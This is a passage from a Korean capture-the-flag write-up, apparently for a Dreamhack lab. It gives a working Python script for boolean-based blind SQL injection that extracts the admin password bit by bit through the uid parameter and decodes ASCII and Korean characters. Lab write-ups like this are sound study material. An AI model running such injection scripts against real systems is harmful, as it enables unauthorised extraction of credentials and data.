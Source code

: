 그럼 이제 이 비트의 길이가 8비트 이내면 1바이트인 아스키코드이고 24비트 이내면 3바이트인 한글이다. 그러므로 비트의 길이에 따라서 이 비트 문자열을 int(bit,2)를 통해 2진수로 인식 시켜 int.to_bytes함수를 이용하여 바이트로 바꾼뒤 utf-8로 디코딩 해준다.

int.to_bytes( 바꿀 int, 바이트 수, byteorder=”big” or “little”)

```python
import requests

password_len=0
host="http://host3.dreamhack.games:19347"

while True:
    password_len+=1
    query=f"admin' and char_length(upw) = {password_len}-- -"
    url=f'{host}/?uid={query}'
    response=requests.get(url)
  
    if "exists" in response.text :
        break
    print(password_len)
# 패스워드 길이 알아냄.

flag=""
for i in range(1,password_len+1):
    bit_len=0
    while True:
        bit_len+=1
        query= f"admin' and length(bin(ord(substr(upw,{i},1))))={bit_len}-- -"
        url=f'{host}/?uid={query}'
        response=requests.get(url)
        if "exists" in response.text :
            break
    print(bit_len)
    # 비트 길이 알아냈음.
    bits=""
    for j in range(1,bit_len+1):
        query=f"admin' and substr(bin(ord(substr(upw,{i},1))),{j},1)='1'-- -"
        url=f'{host}/?uid={query}'
        response=requests.get(url)
        if "exists" in response.text :
            bits=bits+"1"
        else:
            bits=bits+"0"
    print(bits)
    #비트 알아냈음.
    if bit_len <=8: # 아스키코드
        flag+=int.to_bytes(int(bits,2),1,byteorder="big").decode("utf-8")
    elif bit_len >16 and bit_len <=24: #한글
        flag+=int.to_bytes(int(bits,2),3,byteorder="big").decode("utf-8")

    print(flag)
print(flag)
```
